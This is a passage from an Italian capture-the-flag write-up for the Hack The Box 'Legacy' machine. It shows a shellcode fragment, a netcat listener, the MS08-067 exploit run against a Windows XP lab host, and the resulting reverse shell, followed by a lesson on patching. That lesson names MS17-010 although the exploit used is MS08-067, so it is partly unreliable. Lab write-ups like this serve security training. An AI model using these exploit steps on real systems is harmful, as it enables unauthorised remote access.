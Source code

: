 ```bash
"\xab\xe3\x42\xa6\xcd\x94\x96\x8b\xde\xb5\x06\x34";
```

sostituiamo quello presente in shellcode da "" con l'output ottenuto prima

ci mettiamo sempre in ascolto con nc 

```bash
┌──(root㉿kali)-[/home/kali/htb/legacy]
└─# nc -lnvp 443
listening on [any] 443 ..
```

e siamo pronti per lanciare l'exploit, ( il 6 come si legge nel codice fa riferimento alla verisone 
di XP nel nostro caso come da enumerazioe XP English

```bash
python ms08-067.py 10.10.10.4 6 445  

$   This version requires the Python Impacket library version to 0_9_17 or newer.
$
$   Here's how to upgrade if necessary:
$
$   git clone --branch impacket_0_9_17 --single-branch https://github.com/CoreSecurity/impacket/
$   cd impacket
$   pip install .


#######################################################################

Windows XP SP3 English (NX)

[-]Initiating connection
[-]connected to ncacn_np:10.10.10.4[\pipe\browser]
Exploit finish

#Otteniamo cosi la shell di ritorno
┌──(root㉿kali)-[/home/kali/htb/legacy]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.4] 1035
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>whoami
```

# LESSON LEARNED

Questa era una macchina relativamente semplice da risolvere. Stava eseguendo una versione obsoleta vulnerabile di SMB. Finora ho risolto quattro macchine e ognuna di esse mi ha richiesto di sfruttare una versione vulnerabile di alcuni software per ottenere un punto d'appoggio sulla macchina o per aumentare i privilegi. Quindi è ovvio che dovresti sempre aggiornare i tuoi sistemi, specialmente quando vengono rilasciati aggiornamenti per vulnerabilità critiche! Se l'utente avesse installato l'aggiornamento di sicurezza MS17–010, avrei dovuto trovare un altro modo per sfruttare questa macchina.
